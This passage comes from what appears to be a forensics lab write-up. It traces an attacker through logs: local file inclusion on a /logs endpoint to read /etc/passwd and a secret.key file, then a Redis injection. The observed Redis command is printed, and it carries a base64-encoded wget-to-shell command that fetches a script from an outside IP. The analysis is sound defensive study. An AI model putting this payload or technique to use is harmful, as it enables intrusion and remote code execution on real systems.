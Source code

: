 -   {{< figure src="/ox-hugo/2025-05-11-094736_.png" >}}


### 8. Discovering `/logs` Is Vulnerable to Local File Inclusion: {#8-dot-discovering-logs-is-vulnerable-to-local-file-inclusion}

We can see that eventually the attacker finds the endpoint `/logs` and they use to access `logs`.

-   {{< figure src="/ox-hugo/2025-05-11-095907_.png" >}}

They then perform a local file inclusion attack to read the `/etc/passwd` file.

-   {{< figure src="/ox-hugo/2025-05-11-100113_.png" >}}
-   +Note+: The reason `/etc/passwd` is used is because it's world readable so can be used as a good POC when testing for attacks like this.


### 9. Attacker Getting Access to `secret.key`: {#9-dot-attacker-getting-access-to-secret-dot-key}

Looking further at the `data-api.log` file we can see the attacker were able to access the file `secret.key` in the `/tmp` directory.

-   {{< figure src="/ox-hugo/2025-05-11-100452_.png" >}}

-   The `/tmp` directory:
    -   This directory is a standard location for storing temporary files, and its contents are cleared/deleted during system restarts.
-   `secret.key`:
    -   The filename suggests that the file contains sensitive piece of information potentially used for encryption, decryption, or authentication.

As there were no longer any further LFI attacks uses once the `secret.key` file was discovered at `11:39:24` we can assume the attackers were able to leverage this information to again move laterally or further into the system.


### 10. Redis Injection Attack: {#10-dot-redis-injection-attack}

Looking at the `redis.log`  we can see the below entry pushing to the redis db.

-   {{< figure src="/ox-hugo/2025-05-11-102618_.png" >}}

Let's break this down.


#### Analyzing the Redis Command Injection Payload: {#analyzing-the-redis-command-injection-payload}


##### The full Redis command observed is structured as follows: {#the-full-redis-command-observed-is-structured-as-follows}

```cfg
"RPUSH" "bci_commands" "OS_EXEC|d2dldCBodHRwOi8vMTg1LjIwMi4yLjE0Ny9oNFBsbjQvcnVuLnNoIC1PLSB8IHNo|f1f0c1feadb5abc79e700cac7ac63cccf91e818ecf693ad7073e3a448fa13bbb"
```
